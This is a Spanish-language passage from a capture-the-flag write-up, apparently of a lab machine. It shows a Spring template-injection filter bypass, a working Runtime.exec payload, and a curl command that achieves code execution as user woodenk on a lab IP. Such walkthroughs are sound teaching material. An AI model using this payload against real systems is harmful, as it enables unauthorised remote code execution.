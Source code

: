 Parece que tiene un filtro de caracteres.

![Write-up Image](images/Screenshot_2.png)
Pero reemplazando el `$` por `*` , ya que en Spring se puede realizar "templates" con ese formato, conseguimos que se interprete código, confirmando el SSTI.
![Write-up Image](images/Screenshot_3.png)

Utilizando un payload de [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md)
`*{T(org.apache.commons.io.IOUtils).toString(T(java.lang.Runtime).getRuntime().exec('id').getInputStream())}`

Tenemos RCE como el usuario `woodenk`
![Write-up Image](images/Screenshot_4.png)

Por consola...
```shell
$ curl -s -X POST http://10.129.227.207:8080/search --data "name=*%7BT%28org.apache.commons.io.IOUtils%29.toString%28T%28java.lang.Runtime%29.getRuntime%28%29.exec%28%27id%27%29.getInputStream%28%29%29%7D" | html2text
[name                ]
***** You searched for: uid=1000(woodenk) gid=1001(logs) groups=1001(logs),1000
(woodenk) *****
***** There are 0 results for your search *****
```
